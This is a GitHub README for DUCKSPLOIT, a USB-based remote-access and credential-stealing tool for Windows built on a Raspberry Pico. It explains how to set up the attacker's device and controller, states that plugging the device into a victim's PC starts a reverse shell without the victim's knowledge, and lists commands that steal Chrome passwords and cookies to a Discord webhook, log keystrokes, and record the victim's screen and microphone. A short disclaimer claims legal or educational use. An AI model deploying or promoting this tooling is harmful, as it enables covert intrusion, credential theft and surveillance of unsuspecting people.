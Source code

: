 <img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/banner.png" alt="banner"/>



# DUCKSPLOIT
 <img src="https://camo.githubusercontent.com/7f611eb7fa49f2b2cf006f5164f75e1b4fafd3d967bfe0b00b717d3a10ebd44d/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f527562792d4343333432443f7374796c653d666f722d7468652d6261646765266c6f676f3d72756279266c6f676f436f6c6f723d7768697465"
</p>

![](https://img.shields.io/badge/Version-1.0.7-red) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/badge/Windows-blue)
 
![GitHub repo size](https://img.shields.io/github/repo-size/canarddu38/DUCKSPLOIT?style=for-the-badge)
![GitHub language count](https://img.shields.io/github/languages/count/canarddu38/DUCKSPLOIT?style=for-the-badge)
![GitHub forks](https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT?style=for-the-badge)
![Bitbucket open issues](https://img.shields.io/bitbucket/issues/canarddu38/DUCKSPLOIT?style=for-the-badge)
![Bitbucket open pull requests](https://img.shields.io/bitbucket/pr-raw/canarddu38/DUCKSPLOIT?style=for-the-badge)

> Awsome crossbreed of batch and python on Windows ♥
 <center>
<img src="https://camo.githubusercontent.com/7f611eb7fa49f2b2cf006f5164f75e1b4fafd3d967bfe0b00b717d3a10ebd44d/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f527562792d4343333432443f7374796c653d666f722d7468652d6261646765266c6f676f3d72756279266c6f676f436f6c6f723d7768697465" alt="ruby" width="300"/><img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/windows-10.png?raw=true" alt="win10" widith="100" height="100"/>
</center>

## Install Ducksploit

#### Hacker
###### setup raspberry pico (hacker)
1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
2. Extract downloaded zip file
3. Plugg your raspberry pico on your PC with the BOOTSEL button
   [![picobootbutton](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")
4. Move CircuitPython.uf2 file in the E:\ or F:\ <-- usb port (port of your pico)
   now your raspberry pico gonna leave usb port and reconnec with CIRCUITPY name
5. Erase all the content of your raspberry pico and copy all the extracted repo folder into him
6. Write myip.txt and write your own IP
7. Now your raspberry pico is full configured , unplugg your pico and done!

###### setup ducksploit commands (hacker)

1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
2. Extract downloaded zip file
3. If python is not installed, launch 'installpython.bat' or download at https://www.python.org/ftp/python/3.8.0/python-3.8.0.exe
4. launch setup.bat       ###MUST BE RUN AS ADMINISTRATOR###
5. wait till installation is finished
7. Ducksploit is now installed on your PC :smile:
8. Type 'ds' in the cmd
9. Wait victim's connection using 'wait' command
10. Have fun with ducksploit hacking commands (type help to get commands list)

⚠️ WHEN EXPLOIT/SCRIPT IS RUNNING, TYPE ON 'ESC' KEY ⚠️

#### Victim
Just plugg the raspberry pico in your pc (or hacker can do also)
That will start automaticaly the client of the reverse shell

:warning: Ducksploit is made for legal use or educational use (then, we are not responsible for any crimes committed by our users):warning:

## Uninstall Ducksploit (victim)

1. type 'ds uninstall' in cmd
2. Done  :smile:

## SUPPORT
support us with     
<noscript><a href="https://www.paypal.com/paypalme/Canarddu38"><img alt="Donate 👍 using Paypal" src="https://www.paypalobjects.com/webstatic/mktg/Logo/pp-logo-200px.png"></a></noscript>        or        <noscript><a href="https://www.patreon.com/ducksploit"><img alt="Donate 👍 using Patreon" src="https://forum.cwowd.com/uploads/default/original/3X/6/d/6d1cdda143cc46667d87659d64d15a869a9b6139.png" width="100" height="100"></a></noscript>

## **Commands**

#### Launch
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| wait    | wait | wait your victim's connection |


#### Account
| Command | Usage    | Result |
| ------------- | ------------- | ------------- |
| info | info | view all your account's infos |

#### Exploits
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| stealpwds | stealpwds (discord webhook url) | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook |
| open  | open (applicationname.exe) | open mensioned application |
| recordscreen  | recordscreen (time in second) | record victim's screen durring amount of time |
| recordmicro  | recordmicro (time in second) | record victim's micro durring amount of time |

## ⚠️ To get your victim's keylogs, go on 'http://{ip of your victim}:8013/keylogger/' ⚠️

#### Mouse
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| mouseclick | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove | mousemove (x) (y) | move the victim's cursor by x and y pixels |
| locatemouse | locatemouse | get the victim's cursor current locations |

#### Alert Window
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| msg | msg (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines (if -file set line1 to createfile command content)

#### Troll
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| skull   | skull | spam cmds with skull and crossbones |

#### Mysc 
| Command      | Usage       | Result                            |
|--------------|-------------|-----------------------------------|
| uninstall    | uninstall   | uninstall ducksploit              |
| update       | update      | update ducksploit                 |
| credits      | credits     | view ducksploit's credits         |
| help         | help        | getting the list of all commands  |
| shutdown     | shutdown    | make the victim's pc shutdown     |
| reboot       | reboot      | make the victim's pc reboot       |
| closesession | closesesion | make the victim's session close   |
